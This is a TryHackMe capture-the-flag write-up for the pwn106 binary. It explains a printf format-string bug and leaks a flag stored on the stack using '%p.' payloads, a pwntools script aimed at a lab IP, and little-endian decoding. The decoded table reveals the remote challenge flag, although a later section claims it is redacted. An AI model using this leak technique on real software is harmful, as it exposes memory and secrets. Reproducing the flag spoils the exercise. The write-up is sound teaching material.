





# TryHackMe — pwn106

* **Room:** [TryHackMe — pwn101](https://tryhackme.com/room/pwn101)  
* **Category:** Binary Exploitation  
* **Difficulty:** Easy  
* **Date:** 2026-11-16  
* **Tools:** `file`, `checksec`, IDA Pro, Python 3, `pwntools`, CyberChef  
* **Binary:** 64-bit ELF (`pwn106-user-1644300441063.pwn106-user`) — not redistributed (TryHackMe content)  

---

## TL;DR

In this challenge, we analyze a binary hosting a fictional *"THM Giveaway"* that prompts for a username. Decompiling `main()` in IDA Pro reveals that the secret flag is stored directly in a local stack array `v9`. After reading user input via `read(0, buf, 0x32uLL)` without enforcing data types or sanitization, the application executes `printf(buf)` directly without a format specifier string (e.g., `"%s"`). 

This introduces a classic **Format String Vulnerability**. By supplying a string of `%p` specifiers, we force `printf` to traverse beyond the 6 register arguments defined by the x86-64 System V AMD64 ABI and read memory directly from the stack frame where the flag resides. Due to x86-64 little-endian byte ordering, translating the leaked hex values directly in CyberChef yields a scrambled string; reversing each 8-byte chunk properly reconstructs the plaintext flag.

---

## Recon

We begin by examining the binary's security properties using `file` and `checksec`:



Key observations:
* **File Type:** ELF 64-bit LSB pie executable, x86-64, dynamically linked, not stripped.
* **Canary:** `Canary found` — Stack canary is active, preventing traditional return address smashing without a leak.
* **NX:** `NX enabled` — Non-executable stack.
* **PIE:** `PIE enabled` — Position Independent Executable is active; code addresses are randomized.
* **RELRO:** `Partial RELRO`.

Running the binary locally:
```text
$ ./pwn106-user-1644300441063.pwn106-user
pwn 106
# THM Giveaway
Enter your THM username to participate in the giveaway: helo can i have
Thanks helo can i have
```
The program prints a giveaway banner, prompts for a username, and echoes it back with `"Thanks "`.

---

## Static Analysis & Decompilation

Opening the binary in IDA Pro reveals the decompilation of `main()`:



```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rdx
  __int64 v4; // rcx
  __int64 v5; // r8
  __int64 v6; // r9
  _QWORD v9[4]; // [rsp+0h] [rbp-60h] BYREF
  char buf[56]; // [rsp+20h] [rbp-40h] BYREF
  unsigned __int64 v11; // [rsp+58h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  setup(argc, argv, envp);
  banner();
  strcpy((char *)v9, "THM{XXX[flag_redacted]XXX}");
  puts(&byte_2119);

  printf("Enter your THM username to participate in the giveaway: ");
  read(0, buf, 0x32uLL);
  printf("\nThanks ");
  printf(buf, buf, v3, v4, v5, v6, v9[0], v9[1], v9[2], v9[3]);

  return v11 - __readfsqword(0x28u);
}
```

### Identifying the Root Cause
1. **Flag on Stack:** At the beginning of `main()`, the program copies the flag string into local stack variable `v9` at `[rbp-0x60]` using `strcpy((char *)v9, ...)`.
2. **Unvalidated Input:** The program reads up to 50 bytes (`0x32`) into `buf` using `read(0, buf, 0x32uLL)`.
3. **Format String Flaw:** The program calls `printf(buf, ...)` where `buf` is controlled by the user. Because no format specifier (such as `"%s"`) is supplied, any `%` directives inside `buf` are treated as formatting instructions by `printf`.

---

## Format String Vulnerability & Calling Convention

On x86-64 Linux (System V AMD64 ABI), function arguments are passed in registers first, then on the stack:
* **Argument 1 (`RDI`):** Pointer to format string (`buf`)
* **Argument 2 (`RSI`):** 1st data argument
* **Argument 3 (`RDX`):** 2nd data argument
* **Argument 4 (`RCX`):** 3rd data argument
* **Argument 5 (`R8`):** 4th data argument
* **Argument 6 (`R9`):** 5th data argument
* **Argument 7+:** Read consecutively from the stack (`RSP+0x00`, `RSP+0x08`, etc.)

```text
+-------------------------------------------------------------------------+
|                  x86-64 printf Argument Passing Model                   |
+-------------------------------------------------------------------------+
| Format Specifiers:  %1$p   %2$p   %3$p   %4$p   %5$p  |  %6$p   %7$p ...|
| Location:           RSI    RDX    RCX    R8     R9    |  STACK: [RSP+0] |
| Content:            [ Registers (Garbage / Pointers) ]|  v9[0]: "THM{..."|
+-------------------------------------------------------------------------+
```

When `printf` parses `%p`, it consumes one argument. Once it has processed 5 specifiers corresponding to the remaining argument registers, the **6th `%p` begins pulling data directly from the stack frame** where `v9` (the flag) is located!

---

## Dynamic Analysis & Stack Memory Disclosure

### 1. Probing the Leak
We test this locally by supplying multiple `%p.` tokens:



```text
Enter your THM username to participate in the giveaway: %p.%p.%p.%p.%p.%p.%p.%p.%p.%p...
Thanks 0x7ffdf5d240e0.(nil).(nil).0x8.(nil).0x5b5858587b4d4854.0x6465725f67616c66.0x58585d6465746361.0x7d58...
```

Notice the values starting from index 6:
* Slot 6: `0x5b5858587b4d4854`
* Slot 7: `0x6465725f67616c66`
* Slot 8: `0x58585d6465746361`
* Slot 9: `0x7d58`

### 2. Understanding Endianness & Decoding in CyberChef

Placing these hex values directly into CyberChef using the `From Hex` recipe produces scrambled text:



```text
Input:  0x5b5858587b4d4854.0x6465725f67616c66.0x58585d6465746361.0x7d58
Output: [XXX{MHTder_galfXX]detca}X
```

Why does `[XXX{MHT` appear instead of `THM{XXX[`?
x86-64 architectures store multi-byte words in **Little-Endian** format (least significant byte at the lowest memory address):
* `0x5b5858587b4d4854` in hex bytes: `54 48 4d 7b 58 58 58 5b` $\rightarrow$ ASCII: `THM{XXX[`
* `0x6465725f67616c66` in hex bytes: `66 6c 61 67 5f 72 65 64` $\rightarrow$ ASCII: `flag_red`
* `0x58585d6465746361` in hex bytes: `61 63 74 65 64 5d 58 58` $\rightarrow$ ASCII: `acted]XX`
* `0x7d58` in hex bytes: `58 7d` $\rightarrow$ ASCII: `X}`

Reversing each 8-byte chunk in order reassembles the clean string: `THM{XXX[flag_redacted]XXX}`!

---

## Remote Exploitation & Flag Recovery

Connecting to the remote target instance with `solve.py` and payload `%p.` * 15 discloses the remote stack values:



```text
Leaked Hex QWORDs:
0x5f5530797b4d4854
0x5f3368745f6e3077
0x5961774133766947
0x3168745f446e615f
0x756f595f73315f73
0x7d47346c665f52
```

Unpacking each 64-bit integer into little-endian bytes:

| Slot | Leaked QWORD (Hex) | Little-Endian Bytes | Decoded ASCII |
|---|---|---|---|
| **6** | `0x5f5530797b4d4854` | `54 48 4d 7b 79 30 55 5f` | `THM{y0U_` |
| **7** | `0x5f3368745f6e3077` | `77 30 6e 5f 74 68 33 5f` | `w0n_th3_` |
| **8** | `0x5961774133766947` | `47 69 76 33 41 77 61 59` | `Giv3AwaY` |
| **9** | `0x3168745f446e615f` | `5f 61 6e 44 5f 74 68 31` | `_anD_th1` |
| **10** | `0x756f595f73315f73` | `73 5f 31 73 5f 59 6f 75` | `s_1s_You` |
| **11** | `0x7d47346c665f52` | `52 5f 66 6c 34 47 7d` | `R_fl4G}` |

Concatenating the chunks yields the complete remote flag!

---

## Exploit Script

A concise Python script using `pwntools` sends the `%p.` leak payload and leaves the session interactive to capture the leaked hex pointers:

```python
from pwn import *

elf = ELF('./pwn106-user-1644300441063.pwn106-user')
# p = process('./pwn106-user-1644300441063.pwn106-user')
p = remote("10.65.151.171", 9006)

p.recv()
payload = b"%p." * 15
p.sendline(payload)
p.interactive()
```

The returned hex pointers are then copied directly into CyberChef using `From Hex` and reversed to recover the flag.

---

## Flag

```text
THM{redacted}
```

---

## Key Takeaways & Lessons

1. **Uncontrolled Format String Dangers:** Never pass raw user input as the format string argument to `printf(buf)`. When user input must be printed verbatim, always use a hardcoded format specifier:
   ```c
   printf("%s", buf);
   ```
2. **x86-64 System V Calling Conventions:** In 64-bit binaries, the first 6 arguments reside in registers (`RDI`, `RSI`, `RDX`, `RCX`, `R8`, `R9`). Format string specifiers consume registers first; any specifier at index 6 or beyond inspects stack memory directly.
3. **Little-Endian Byte Alignment:** Data read as 64-bit pointers (`%p` / `%lx`) represents little-endian integers. When recovering ASCII strings from hex dumps, each 8-byte chunk must be reversed individually before concatenating.
